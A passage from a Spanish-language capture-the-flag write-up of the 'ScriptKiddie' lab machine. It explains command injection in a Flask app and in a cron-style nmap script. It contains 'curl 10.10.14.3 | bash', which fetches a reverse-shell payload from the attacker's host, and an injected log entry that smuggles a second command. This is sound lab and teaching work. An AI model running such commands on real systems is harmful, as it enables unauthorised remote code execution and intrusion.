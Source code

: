 ````'curl 10.10.14.3 | bash'```` hará que la máquina victima me envíe una petición HTTP a mi servidor. Yo estaré corriendo un servidor HTTP de python compartiendo un fichero *index.html* malicioso que contendrá un sentencia en bash, que será una *reverse shell*. El ```| bash``` es para que este código sea interpretado del lado de la máquina y me envíe la consola interactiva. También deberé de estar en escucha por el puerto 443 para recibirla.
Del fichero *app.py* podemos extraer el siguiente fragmento de código que nos da un poco de contexto sobre la carpeta ***logs*** que podíamos ver en el *homedir* de kid. Y es que en esta carpeta ***logs*** hay una archivo ***hackers*** en el cual se escribe contenido cuando intentamos inyectar comandos en el campo de la sección de ***sploits***. 

```python
def searchsploit(text, srcip):
    if regex_alphanum.match(text):
        result = subprocess.check_output(['searchsploit', '--color', text])
        return render_template('index.html', searchsploit=result.decode('UTF-8', 'ignore'))
    else:
        with open('/home/kid/logs/hackers', 'a') as f:
            f.write(f'[{datetime.datetime.now()}] {srcip}\n')
        return render_template('index.html', sserror="stop hacking me - well hack you back")
```

Por lo tanto, si inyectamos por ejemplo ```wordpress; whoami``` en el campo *sploits* de la web, en el archivo *hackers* veremos lo siguiente:

<img src="/photos/2022-09-16-ScriptKiddie-WriteUp/logs.jpg" alt="drawing"  />  

El ```while true; do cat hackers; done``` es porque hay algún tipo de tarea en el sistema que esta borrando el contenido del archivo nada mas se escribe en él.

####  *Homedir* de pwn  

En el *homedir* de pwn podemos ver el siguiente contenido:

<img src="/photos/2022-09-16-ScriptKiddie-WriteUp/pwnhomedir.jpg" alt="drawing"  />  

No tenemos permisos para acceder a la carpeta *recon* pero si que podemos leer el contenido del fichero *scanlosers.sh* que es un *script*. El contenido es el siguiente:

```bash
#!/bin/bash

log=/home/kid/logs/hackers

cd /home/pwn/
cat $log | cut -d' ' -f3- | sort -u | while read ip; do
    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
done

if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi
```

Es un *script* que lo que hace es coger la información a partir del tercer parámetro separado por un espacio de archivo *hackers* y le aplica un reconocimiento con nmap. Este tercer parámetro es una ip, como podíamos ver hace dos fotos.

Ahora, el mensaje ***"stop hacking me - well hack you back"*** tiene sentido, ya que si intentas inyectar un comando como habíamos hecho anteriormente te hará un reconocimiento con *nmap* sobre tu ip.

Lo interesante del script es que con la utilización de *${ip}* podemos inyectar un comando para que sea ejecutado como el usuario pwn, si es que este usuario esta continuamente ejecutando el *script*. ¿Qué pasaría si pudiera escribir en el archivo hackers algo como ```x x 127.0.0.1;ping -c 1 10.10.14.5```?  

A través de este archivo *scanlosers.sh*, pwn ejecutaría:  
 ```sh -c "nmap --top-ports 10 -oN recon/127.0.0.1;ping -c 1 10.10.14.5.nmap 127.0.0.1;ping -c 1 10.10.14.5 2>&1 >/dev/null" &```

```127.0.0.1;ping -c 1 10.10.14.5.nmap``` fallaría por tener la extensión *nmap* pero el segundo ```127.0.0.1;ping -c 1 10.10.14.5``` funcionaría correctamente.

````